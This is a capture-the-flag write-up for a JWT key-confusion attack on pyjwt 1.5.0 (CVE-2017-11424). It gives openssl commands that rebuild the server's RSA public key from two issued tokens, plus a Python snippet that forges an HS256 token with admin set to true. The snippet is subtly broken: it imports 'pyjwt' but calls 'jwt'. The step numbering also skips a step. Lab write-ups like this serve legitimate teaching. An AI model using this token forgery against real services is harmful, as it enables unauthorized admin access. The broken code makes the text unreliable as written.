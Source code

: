 A JWT key confusion attack on pyjwt 1.5.0 (CVE-2017-11424) that allow attacker to use public key on RS256-JWT validation by re-encoding the system's public key and specify it as HS256-JWT

Summary:
No matter how user registered an account, admin flag will always set as false. The objective is to change it to admin true and get the flag. Upon login, user receive a jwt token located at cookie.

Attack idea:
1. Register and login as user 2 times, collect 2 different JWT tokens
2. Use 2 jwt tokens to generate the public key used for signing the jwt.
3. Using the public key, sign another cookie that specify admin=true and algorithm=HS256
4. JWT key confusion vulnerability on the system will accept the forged token and allow us to login as admin
5. Flag!

Solution:
1. Obtain 2 JWT tokens with different usernames.
2. Use the solve.py script to find their respective n and e values.
3. Insert n and e values into def.asn1.
4. `openssl asn1parse -genconf def.asn1 -out pubkey.der`
5. `Convert the DER-encoded public key to PEM format: openssl rsa -in pubkey.der -inform der -pubin -out pubkey.pem`
6. `Convert the PEM-encoded public key to RSAPublicKey format: openssl rsa -in pubkey.pem -out rsapublickey.pem -pubin -RSAPublicKey_out`
7. Obtain the RSA public key (rsapublickey.pem).
 
8. With the RSA public key acquired, generate a JWT with admin set to true using Python. Here's how:
9. run this code (pyjwt version must be 1.5.0)
```
import pyjwt
file = open('rsapublickey.pem', 'rb').read()
print(jwt.encode({'public_id': 'a','name': 'yourname','admin':True, 'exp':99999999999}, file, algorithm='HS256'))
```
11. Send the generated token.


reference (this might help): https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/